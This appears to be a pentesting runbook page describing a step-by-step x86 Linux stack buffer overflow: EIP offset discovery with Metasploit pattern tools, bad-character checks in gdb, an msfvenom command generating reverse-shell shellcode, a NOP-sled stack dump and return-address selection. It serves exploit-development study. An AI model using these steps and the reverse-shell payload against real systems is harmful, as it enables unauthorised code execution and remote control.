 # buffer overflow x86 linux

## Step 1: Take control EIP

- Get rough estimate offset (e.g. 1000)
- Create pattern.
```shell
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1200
```

- Calculate exact offset using the value of the EIP.
```shell
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x69423569
```

- Verify offset by overwriting EIP.

## Step 2: Identify bad chars

- Start inspecting bad characters "\x00\x01\x02...\xff"
- Use the following command to inspect the stack.

```shell
x/1000xb $rsp
```

- Iterate the process. E.g. remove "\x00\x09", update input, and rerun program.

## Step 3: Generate shellcode

Consider
- Architecture (e.g. `x86`)
- Platform (e.g. linux)
- Bad characters

Generate shellcode using `msfvenom`.
```shell
msfvenom -p "linux/x86/shell_reverse_tcp" LHOST=127.0.0.1 LPORT=4444 --format "c" --bad-chars "\x00\x09\x0a\x20"
```

- Update program input. Add `\x90` chars are NOP instructions.

- Example stack is given below.

```shell
...
0xffffd6b4:     0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0xffffd6bc:     0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0xffffd6c4:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd6cc:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
...
0xffffd72c:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd734:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd73c:     0xbf    0x0c    0xf4    0xbb    0x7c    0xd9    0xcb    0xd9
0xffffd744:     0x74    0x24    0xf4    0x5a    0x31    0xc9    0xb1    0x12
...
```

## Step 4: Identify return address

- Get a memory address where **only** NOPs are located to tell the EIP to jump to it.
- This memory address must **not** contain any of the bad characters we found earlier.
- Pass the address to the input **backwards** in case of little Endian

Finally, update the EIP overwrite with the memory address found above.

## Python
- A Python script for buffer overflow can be at [GitHub](https://github.com/a3cipher/runbook/blob/main/ptes3-exploitation/binary-exploitation/bo-x86-linux-local.py).
